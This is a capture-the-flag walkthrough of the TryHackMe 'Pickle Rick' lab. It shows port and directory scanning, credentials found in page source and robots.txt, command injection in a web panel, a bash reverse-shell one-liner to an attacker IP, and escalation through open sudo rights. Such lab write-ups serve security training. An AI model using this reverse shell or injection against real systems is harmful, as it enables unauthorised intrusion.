 # TryHackMe Pickle Rick

![Open Lightbox](../assets/PickleRick1.webp){ .glightbox .center width="600" }

```
TryhackMe Machine:- Pickel Rick
Machine Info:- Web
Machine Level:- Easy
```

---
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: 10.10.237.59

Started nmap scan.

```bash
 nmap 10.10.237.59Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-06 21:24 ISTNmap scan report for 10.10.237.59Host is up (0.16s latency).Not shown: 998 closed tcp ports (conn-refused)PORT   STATE SERVICE22/tcp open  ssh80/tcp open  httpNmap done: 1 IP address (1 host up) scanned in 40.93 seconds
```

Now ssh(22) and http(80) is open now i also perfromed directory brute force and found.

```bash
  _|. _ _  _  _  _ _|_    v0.4.3.post1 (_||| _) (/_(_|| (_| )Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25Wordlist size: 11460Output File: /Users/tanish/reports/_10.10.237.59/_23-11-06_21-25-14.txtTarget: http://10.10.237.59/[21:25:14] Starting:[21:25:24] 403 -  298B  - /.ht_wsr.txt[21:25:25] 403 -  301B  - /.htaccess.bak1[21:25:25] 403 -  301B  - /.htaccess.orig[21:25:25] 403 -  301B  - /.htaccess.save[21:25:25] 403 -  303B  - /.htaccess.sample[21:25:25] 403 -  299B  - /.htaccessOLD[21:25:25] 403 -  292B  - /.html[21:25:25] 403 -  302B  - /.htaccess_extra[21:25:25] 403 -  301B  - /.htaccess_orig[21:25:25] 403 -  299B  - /.htaccess_sc[21:25:25] 403 -  299B  - /.htaccessBAK[21:25:25] 403 -  300B  - /.htaccessOLD2[21:25:25] 403 -  291B  - /.htm[21:25:25] 403 -  301B  - /.htpasswd_test[21:25:25] 403 -  297B  - /.htpasswds[21:25:25] 403 -  298B  - /.httr-oauth[21:25:27] 403 -  292B  - /.php3[21:25:27] 403 -  291B  - /.php[21:25:53] 200 -  588B  - /assets/[21:25:53] 301 -  313B  - /assets  ->  http://10.10.237.59/assets/[21:26:20] 200 -  455B  - /login.php[21:26:40] 200 -   17B  - /robots.txt[21:26:41] 403 -  301B  - /server-status/[21:26:41] 403 -  300B  - /server-statusTask Completed
```

Now /assets, /robots.txt and login.php and login.php are 200 ok so i visited them one by one first the main page.

![Open Lightbox](../assets/PickleRick2.webp){ .glightbox .center width="500" }

Now on the i looked at the page source and found the username.

![Open Lightbox](../assets/PickleRick3.webp){ .glightbox .center width="500" }

And on the assets i didnt find anything significant i visted the robots.txt and found the password for the username.

![Open Lightbox](../assets/PickleRick4.webp){ .glightbox .center width="500" }

Now on logged in using the username and the password i got on /login.php

And after login found command panel i tested it and a possible command injection.

![Open Lightbox](../assets/PickleRick5.webp){ .glightbox .center width="500" }


![Open Lightbox](../assets/PickleRick6.webp){ .glightbox .center width="500" }

And yes it worked but it also disabled the commands.

![Open Lightbox](../assets/PickleRick7.webp){ .glightbox .center width="500" }

So lets try to get a shell on this im using.

```bash
bash -c 'bash -i >& /dev/tcp/10.8.197.78/8081 0>&1'
```

And get your listener ready it pop a shell.

![Open Lightbox](../assets/PickleRick8.webp){ .glightbox .center width="500" }

Got the first ingredient.

![Open Lightbox](../assets/PickleRick9.webp){ .glightbox .center width="500" }

Now looked around and in /home/rick found the second file.

![Open Lightbox](../assets/PickleRick10.webp){ .glightbox .center width="500" }

Now the to escalate privilege i found that the user www/data can exeute any sudo commands.

![Open Lightbox](../assets/PickleRick11.webp){ .glightbox .center width="500" }

And found the 3rd ingredient too.

Thank you for reading
